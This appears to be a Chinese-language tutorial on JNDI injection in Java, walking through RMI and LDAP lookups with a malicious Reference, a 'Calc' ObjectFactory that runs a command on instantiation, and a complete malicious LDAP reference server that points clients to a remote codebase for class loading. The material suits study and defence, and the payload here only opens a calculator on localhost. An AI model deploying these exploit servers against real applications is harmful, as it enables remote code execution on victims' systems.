




#### 0x01 JNDI 

为命名与目录服务访问层设计的一套标准接口，使得 Java 应用以统一的方式管理和查找外部资源，主要通过 lookup 方法查找资源，rebind bind 方法发布资源。

#### 0x02 RMI

首先实现以下 RemoteObj RemoteObjImpl

```java
package com.wsh.JNDI;

import java.rmi.Remote;
import java.rmi.RemoteException;

public interface RemoteObj extends Remote {
    public String hello(String str)  throws RemoteException;
}

package com.wsh.JNDI;

import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

public class RemoteObjImpl extends UnicastRemoteObject implements RemoteObj {
    public RemoteObjImpl() throws RemoteException {
        super();
    }
    @Override
    public String hello(String str) throws RemoteException {
        System.out.println("[+] 远程方法被调用");
        String result = "hello";
        return result+str;
    }
}
```

然后发布资源，通过 lookup 调用相应资源

```java
package com.wsh.JNDI;

import javax.naming.InitialContext;
import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class JNDIServer {
    public static void main(String[] args) throws NamingException, RemoteException {
        InitialContext ctx = new InitialContext();
        Registry registry = LocateRegistry.createRegistry(1099);
        ctx.rebind("rmi://localhost:1099/remoteObj",new RemoteObjImpl());
    }
}

package com.wsh.JNDI;

import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.rmi.RemoteException;

public class JNDIClient {
    public static void main(String[] args) throws NamingException, RemoteException {
        InitialContext ctx = new InitialContext();
        RemoteObj remoteObj = (RemoteObj) ctx.lookup("rmi://localhost:1099/remoteObj");
    }
}
```



这里，如果 server 端绑定的是一个 Reference 对象，那么 client 端通过 lookup 获取到一个 Reference 对象，对其进行解析，并去指定 codebase 地址获取相应资源通过工厂类来实例化指定的 className



我们在 server 端设置相应的 ref 对象,然后发起 jndi 请求。

```java
Reference ref = new Reference("com.wsh.JNDI.Calc","com.wsh.JNDI.Calc","http://localhost:5377/");
ctx.rebind("rmi://localhost:1099/remoteObj",ref);
```

调试跟进，



判断是否为 Rference 对象,然后转换类型

继续跟进，通过 loadClass 加载类,然后实例化，触发构造函数，弹出计算器

```java
package com.wsh.JNDI;

import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.IOException;
import java.util.Hashtable;

public class Calc implements ObjectFactory {
    public Calc() throws IOException {
        Runtime.getRuntime().exec("open -a Calculator");
    }
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx,
                                    Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```

!

跟进后是 urlClassloader 加载

#### 0x03 LDAP

LDAP 服务，通过拦截器将返回内容设置为对象工厂所在的 codebase ，后续走 urlClassloader 加载类，高版本下不能加载远程类，也可以将其设只为可利用类的 path 

```java
package com.wsh.JNDI;

import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

public class LDAPRefServer {

    private static final String LDAP_BASE = "dc=wsh.JNDI,dc=com";
    private static final String EXPLOIT_CLASS_URL = "http://127.0.0.1:7777/#Calc_";

    public static void main(String[] args) {
        int port = 7778;
        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    InetAddress.getByName("0.0.0.0"),
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(EXPLOIT_CLASS_URL)));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();

        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;
        public OperationInterceptor(URL cb) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult(InMemoryInterceptedSearchResult result) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            } catch (Exception e1) {
                e1.printStackTrace();
            }

        }

        protected void sendResult(InMemoryInterceptedSearchResult result, String base, Entry e) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for" + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "Calc_");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if (refPos > 0) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", this.codebase.getRef());
            // JNDI 收到 LDAP 响应时，会解析这些属性并构建 Reference 对象：
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

    }
}
```

